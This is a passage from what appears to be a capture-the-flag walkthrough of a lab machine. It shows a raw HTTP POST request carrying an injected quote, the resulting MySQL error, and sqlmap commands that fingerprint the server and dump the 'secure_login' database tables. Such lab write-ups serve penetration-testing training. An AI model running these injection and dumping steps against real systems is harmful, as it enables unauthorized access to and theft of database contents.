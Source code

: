                                                 <p> <h1>Congrats..! You have bypassed User Panel Successfully.</h1> <br>
                        <p><h3>There is long way to go :-) <a href="hacked.php">Click Here to Proceed Further</a>.</h3></p>

                        <p><h3>If you are done, please <a href="includes/logout.php">log out</a>.</h3></p>

                            </body>
</html>
..
{% endcodeblock %}

Proceeding further, there are a few hints for sql injection, but nothing that I tried worked:
http://192.168.80.158:33447/Challenge/hacked.php?id=33&add=Add+ID

I was trying sqlmap or manual identification without success, however Burp
Suite Scanner revealed, that the parameter ID is vulnerable, when it's sent in POST
method:

{% codeblock lang:html %}
POST /Challenge/hacked.php?add=Add_ID HTTP/1.1
Host: 192.168.80.158:33447
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:40.0) Gecko/20100101 Firefox/40.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.80.158:33447/Challenge/hacked.php
Cookie: sec_session_id=1mo7qhj43ul3d90kin24am4531
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

id=1'
...


Could not enter data: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''))' at line
{% endcodeblock %}

Now I can use sqlmap and retrieve some useful information:
{% codeblock %}
root@kali32:~# sqlmap -u "http://192.168.80.158:33447/Challenge/hacked.php?add=Add+ID" --cookie="sec_session_id=1mo7qhj43ul3d90kin24am4531" -p id --method=POST --data="id=1" -a
...

web server operating system: Linux Ubuntu
web application technology: Apache 2.4.10
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL 5.0
banner:    '5.6.25-0ubuntu0.15.04.1'
current user:    'root@localhost'
current database:    'secure_login'
hostname:    'acid'
current user is DBA:    True

root@kali32:~# sqlmap -u "http://192.168.80.158:33447/Challenge/hacked.php?add=Add+ID" --cookie="sec_session_id=1mo7qhj43ul3d90kin24am4531" -p id --method=POST --data="id=1"  -D secure_login --tables --columns --dump
